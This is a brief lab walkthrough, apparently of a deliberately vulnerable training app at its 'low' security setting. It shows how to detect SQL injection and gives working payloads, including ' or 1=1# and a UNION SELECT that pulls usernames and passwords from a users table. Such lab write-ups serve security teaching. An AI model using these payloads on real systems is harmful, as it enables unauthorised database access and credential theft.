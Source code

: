 Security level is currently: low.

We can detect SQL injection with ' on submiting this we get SQL error.

we can see all entries with ' or 1=1# :

![Screenshot 2025-04-25 031141](https://github.com/user-attachments/assets/9100776d-0185-476b-8e3a-eb7877cb3e90)

We can extract all passwords with payload:

' UNION SELECT user, password FROM users#

![Screenshot 2025-04-25 031223](https://github.com/user-attachments/assets/3eb42d8a-c3c3-4bbf-9375-4686e54bd4e8)


